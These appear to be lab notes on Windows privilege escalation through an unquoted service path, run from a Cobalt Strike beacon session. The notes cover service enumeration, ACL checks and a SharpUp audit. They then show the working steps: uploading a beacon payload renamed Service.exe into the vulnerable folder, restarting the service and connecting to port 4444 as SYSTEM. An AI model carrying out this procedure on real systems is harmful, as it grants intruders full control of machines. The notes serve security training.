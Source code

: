 Identifying services to perform unquoted service path on.
```shell
beacon> run wmic service get name, pathname
```
![[Pasted image 20230825130937.png]]
getting permissions of the vulnerable services path.
```shell
powershell Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl
```
Built in users can create files here.
![[Pasted image 20230825131257.png]]
Sharpup  doing a privesc check on places Unquoted Service Path could be
```shell
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath
```
![[Pasted image 20230825131454.png]]
Generating Service Executable Payload on Cobalt Strike 
- utilizing tcp_local because it was recommended to use tcp_local for priv escs
- Use services exe's when interacting with services
![[Pasted image 20230825132418.png]]
Saved to C:\Payloads
![[Pasted image 20230825133138.png]]
CD'd to C:\Program Files
```powershell
beacon> cd C:\Program Files\Vulnerable Services
```
![[Pasted image 20230825133458.png]]
uploaded the shellcode to C:\Payloads\
```powershell
beacon> upload C:\Payloads\wkstn2_Quote_beacon_x64.exe
```
![[Pasted image 20230825133916.png]]
Renamed file to Service.exe to allow for the unquoted service paths
```powershell
beacon> mv wkstn2_Quote_beacon_x64.exe Service.exe
```
![[Pasted image 20230825134318.png]]
Stopped Service
```powershell
beacon> run sc stop VulnService1
```
![[Pasted image 20230825134448.png]]
Started Service
```powershell
beacon> run sc start VulnService1
```
![[Pasted image 20230825134536.png]]
Checking service status
- In order for Service to be started system must be restarted due to regular users unable to start services.
```powershell
beacon> run sc query VulnService1
```
![[Pasted image 20230825134642.png]]
Checking netstat to check for listener after rebooting computer.
- Port 4444 is the listener
```powershell
beacon> run netstat -anp tcp
```
![[Pasted image 20230825141119.png]]
Connecting to port 4444
```powershell
beacon> connect localhost 4444
```
![[Pasted image 20230825141236.png]]
On as System
![[Pasted image 20230825141331.png]]

![[Pasted image 20230825141544.png]]